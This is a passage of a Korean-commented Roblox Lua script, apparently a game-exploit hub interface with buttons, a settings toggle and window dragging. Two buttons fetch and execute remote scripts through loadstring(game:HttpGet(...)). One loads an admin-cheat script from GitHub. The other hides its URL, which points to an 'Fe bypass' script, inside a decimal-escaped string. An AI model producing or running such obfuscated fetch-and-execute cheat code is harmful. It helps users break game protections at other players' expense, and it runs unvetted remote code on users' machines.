     -- 버튼 둥글게 만들기
    local buttonCorner = Instance.new("UICorner")
    buttonCorner.CornerRadius = UDim.new(0, 10)
    buttonCorner.Parent = button

    return button
end

-- 🔹 윗부분 버튼 (연한 부분 아래로 내리기, 겹치지 않도록 조정)
local topLeftButton = createButton("위 왼쪽", UDim2.new(0.05, 0, 0.2, 0))   
local topRightButton = createButton("위 오른쪽", UDim2.new(0.55, 0, 0.2, 0)) 

-- 🔹 아래 부분 버튼 (크기 줄이고 정렬)
local bottomLeftButton = createButton("아래 왼쪽", UDim2.new(0.05, 0, 0.75, 0))
local bottomRightButton = createButton("아래 오른쪽", UDim2.new(0.55, 0, 0.75, 0))

-- "프라어드민" 버튼 클릭 시 특정 스크립트 실행
local pradminButton = createButton("프라어드민", UDim2.new(0.35, 0, 0.45, 0)) -- 버튼 생성 위치 조정
pradminButton.MouseButton1Click:Connect(function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/elliexmln/PrizzLife/main/pladmin.lua'))()
end)

-- "프라존도우" 버튼 클릭 시 특정 스크립트 실행
local prazonButton = createButton("프라존도우", UDim2.new(0.35, 0, 0.55, 0)) -- 버튼 생성 위치 조정
prazonButton.MouseButton1Click:Connect(function()
    loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\103\48\48\108\88\112\108\111\105\116\101\114\47\103\48\48\108\88\112\108\111\105\116\101\114\47\109\97\105\110\47\70\101\37\50\48\98\121\112\97\115\115\34\44\32\116\114\117\101\41\41\40\41\10")()
end)

-- 톱니 모양 버튼 생성 (왼쪽 고정)
local settingsButton = Instance.new("TextButton")
settingsButton.Size = UDim2.new(0, 50, 0, 50)
settingsButton.Position = UDim2.new(0, 10, 0.5, -25)
settingsButton.Text = "⚙️"
settingsButton.TextColor3 = Color3.fromRGB(255, 255, 255)
settingsButton.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
settingsButton.Parent = gui

-- 허브 보이기/숨기기
mainFrame.Visible = false
settingsButton.MouseButton1Click:Connect(function()
    mainFrame.Visible = not mainFrame.Visible
end)

-- 🛠️ 드래그 기능 (화면 이동 문제 해결)
local UserInputService = game:GetService("UserInputService")
local dragging, dragInput, dragStart, startPos

titleBar.InputBegan:Connect(function(input)
    if input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch then
        dragging = true
        dragStart = input.Position
        startPos = mainFrame.Position
